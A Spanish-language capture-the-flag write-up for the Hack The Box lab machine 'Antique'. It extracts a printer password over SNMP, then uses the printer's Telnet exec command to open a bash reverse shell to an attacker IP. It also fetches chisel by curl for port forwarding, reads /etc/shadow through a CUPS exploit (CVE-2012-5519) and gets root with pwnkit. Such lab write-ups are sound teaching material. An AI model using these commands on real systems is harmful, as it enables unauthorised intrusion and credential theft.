

# Antique

`Antique` es una máquina Linux sencilla que cuenta con una impresora de red que revela credenciales a través de una cadena SNMP que permite iniciar sesión en el servicio Telnet. Se puede obtener acceso mediante la explotación de una característica de la impresora. El servicio de administración CUPS se ejecuta localmente. Este servicio se puede explotar aún más para obtener acceso raíz en el servidor.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Antique**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.107 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 01:15 CET
Initiating SYN Stealth Scan at 01:15
Scanning 10.10.11.107 [65535 ports]
Discovered open port 23/tcp on 10.10.11.107
Completed SYN Stealth Scan at 01:15, 22.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.107
Host is up, received user-set (0.050s latency).
Scanned at 2025-01-27 01:15:02 CET for 22s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.19 seconds
           Raw packets sent: 66438 (2.923MB) | Rcvd: 66448 (2.658MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.107
	[*] Open ports: 23

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que solamente se encuentra abierto el puerto de `telnet` (23).

```bash
❯ nmap -sCV -p23 10.10.11.107 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 01:15 CET
Nmap scan report for 10.10.11.107
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.95%I=7%D=1/27%Time=6796D03A%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   61.73 ms 10.10.16.1
2   32.26 ms 10.10.11.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 173.36 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Realizaremos un reconocimiento básico sobre el `telnet`. Al acceder al sistema, comprobamos que nos aparece un mensaje de `HP JetDirect` y nos pide credenciales. Parece ser el acceso a una impresora de red.

```bash
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```

Dado que en el escaneo inicial con `Nmap` no logramos encontrar más información sobre los puertos TCP, probamos de verificar si existían puertos UDP abiertos en el sistema.&#x20;

Logramos verificar la existencia del puerto `161` que pertenece a `snmp`.

```bash
❯ nmap --top-ports 100 --open -sU -vvv -Pn -n 10.10.11.107
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 01:18 CET
Initiating UDP Scan at 01:18
Scanning 10.10.11.107 [100 ports]
Increasing send delay for 10.10.11.107 from 0 to 50 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.11.107 from 50 to 100 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.11.107 from 100 to 200 due to max_successful_tryno increase to 6
Increasing send delay for 10.10.11.107 from 200 to 400 due to max_successful_tryno increase to 7
Increasing send delay for 10.10.11.107 from 400 to 800 due to max_successful_tryno increase to 8
UDP Scan Timing: About 42.70% done; ETC: 01:19 (0:00:42 remaining)
Increasing send delay for 10.10.11.107 from 800 to 1000 due to 11 out of 18 dropped probes since last increase.
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 01:19, 100.03s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up, received user-set (0.033s latency).
Scanned at 2025-01-27 01:18:13 CET for 100s
Not shown: 99 closed udp ports (port-unreach)
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 100.14 seconds
           Raw packets sent: 263 (14.720KB) | Rcvd: 213 (16.669KB)
```

## Initial Access

### SNMP Enumeration

Durante la evaluación, realizamos una caminata (walk) por el árbol MIB del dispositivo objetivo utilizando SNMP para recopilar información detallada.

Este comando accede al nodo raíz (OID 1) del árbol de MIB del dispositivo, lo que nos permite obtener toda la información disponible sobre él. La respuesta obtenida indica que el dispositivo está etiquetado como **HTB Printer** y proporciona un conjunto de bits asociada a una OID específica (`enterprises.11.2.3.9.1.1.13.0`), lo que puede ser útil para identificar configuraciones o parámetros adicionales del dispositivo.

Además, al explorar la OID `enterprises.11.2.3.9.1.2.1.0`, se nos indicó que no hay más variables disponibles en este nodo del árbol, lo que implica que hemos llegado al final de la información accesible a través de esta ruta en particular.

Este proceso de enumeración nos permitió obtener detalles clave del dispositivo y explorar posibles vectores de ataque asociados a su configuración SNMP.

```bash
❯ snmpwalk -v 2c -c public 10.10.11.107
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"

❯ snmpwalk -v 2c -c public 10.10.11.107 1
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
SNMPv2-SMI::enterprises.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

### Network Printer Abuse (HP JetDirects)

Por otro lado, en el siguiente blog nos especifican como podemos hackear impresoras HP JetDirects desde SNMP para lograr obtener la contraseña de la impresora.



<figure><figcaption></figcaption></figure>

Al realizar la ejecución del comando que se nos indicaba en el blog, logramos obtener el mismo resultado anterior.

```bash
❯ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

Este resultado s eencuentra en hexadecimal, al convertirlo en ASCII, logramos obtener la contraseña de la impresora de red.

```basic
❯ echo '50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135' | xxd -r -p; echo
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i	IY�aA�"1&1A5
```

Probamos de acceder nuevamente a `telnet` e ingresamos las credenciales obtenidas. Verificamos que logramos acceder a la impresora correctamente.

Por otro lado, verificamos que dispone de un comando `exec` que al parecer permite ejecutar comandos. Al ejecutar un comando `exec id` verificamos que logramos ejecutarlo sin problemas.

```bash
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Por lo tanto, probarmeos de obtener una Reverse Shell. Para ello, nos pondremos en escucha por un puerto.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde la interfaz de `telnet` de la impresora, ejecutaremos el siguiente comando.

```bash
> exec bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'
```

Verificamos que logramos obtener acceso al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.107] 55082
bash: cannot set terminal process group (1022): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ cat /home/lp/user.txt
cat /home/lp/user.txt
bfd3482a0***********************
```

## Privilege Escalation

### CUPS Administration Exploitation (CVE-2012-5519)

Revisamos si en el equipo dispone de algún puerto interno abierto. Verificamos que hay un puerto 161 abierto el cual investigaremos.

```bash
lp@antique:~$ netstat -ano | grep LISTEN
netstat -ano | grep LISTEN
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:631                 :::*                    LISTEN      off (0.00/0/0)
```

Realizaremos **Port Forwarding** a través de `chisel` para obtener acceso a ese puerto desde nuestro equipo local.

Desde nuestra Kali, nos crearemos un servidor con `chisel`.

```bash
❯ ./chisel server --reverse -p 1234
2025/01/27 01:30:49 server: Reverse tunnelling enabled
2025/01/27 01:30:49 server: Fingerprint 2rgce5eKdOw74ibZ3pEyZ2xkaiDbBwAUWRjYfuZs7kI=
2025/01/27 01:30:49 server: Listening on http://0.0.0.0:1234
```

Por otro lado, deberemos disponer del binario de `chisel` para Linux y compartiremos este binario a través de un servidor web.

```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Mon Jan 27 01:30:46 2025  chisel
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el `chisel`, le daremos permisos de ejecución y lo configuraremos para que actúe como cliente y nos realice el **Port Forwarding** del puerto que nos interesa.

```bash
lp@antique:/tmp$ curl http://10.10.16.5/chisel -o /tmp/chisel
curl http://10.10.16.5/chisel -o /tmp/chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 9152k  100 9152k    0     0  2934k      0  0:00:03  0:00:03 --:--:-- 2933k
lp@antique:/tmp$ chmod +x chisel
chmod +x chisel
lp@antique:/tmp$ ./chisel client 10.10.16.5:1234 R:631:127.0.0.1:631
./chisel client 10.10.16.5:1234 R:631:127.0.0.1:631
2025/01/27 00:33:11 client: Connecting to ws://10.10.16.5:1234
2025/01/27 00:33:11 client: Connected (Latency 32.031023ms)
```

Desde nuestor navegador, accederemos a http://127.0.0.1:631 y verificaremos que se trata del panel de Administración de **CUPS**. Además logramos verificar la versión **1.6.1**.

<figure><figcaption></figcaption></figure>

Revisando posibles vulnerabilidades de esta versión de `CUPS`, nos encontramos con el siguiente `CVE-2012-5519`.




CUPS v1.4.4, cuando se ejecuta en ciertas distribuciones de Linux como Debian GNU/Linux, almacena la la clave de la interfaz web del administrador en /var/run/cups/certs/0 con ciertos permisos, lo que permite a los usuarios locales en el grupo lpadmin leer o escribir archivos arbitrarios como root mediante el aprovechamiento de la interfaz web.


Nos descargaremos el siguiente repositorio de GitHub el cual nos proporcionan un exploit.



Nos pasaremos el exploit al equipo comrpometido y lo ejecutaremos. Al ejecutarlo verificamos que podemos leer archivos arbitrarios, entre los cuales podemos visualizar la flag de **root.txt** directamente.

```bash
lp@antique:/tmp$ ls -l exploit.sh
ls -l exploit.sh
-rwxrwxr-x 1 lp lp 13028 Jan 27 00:39 exploit.sh
lp@antique:/tmp$ ./exploit.sh 
./exploit.sh
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./exploit.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] /root/root.txt
[+] contents of /root/root.txt:
dd7f80890d84993ab6f93e0cded15740
```

También verificamos que podemos visualizar el archivo `/etc/passwd` el cual nos aparece la contraseña del usuario`root` cifrada. Intentamos descifrarla pero no obtuvimos éxito en el resultado.

```bash
[>] /etc/shadow
[+] contents of /etc/shadow:
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

### Obtaining root shell - pwnkit (CVE-2021-4034)

Revisando posibles vulnerabilidades del equipo, nos encontramos que el equipo era vulnerable a `CVE-2021-403`.



Al ejecutar el exploit, verificamos que logramos obtener una bash como usuario`root`.

```bash
lp@antique:/tmp$ python3 exploit.py
python3 exploit.py
id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
bash
whoami
root
script /dev/null -c bash
Script started, file is /dev/null
root@antique:/tmp#
```
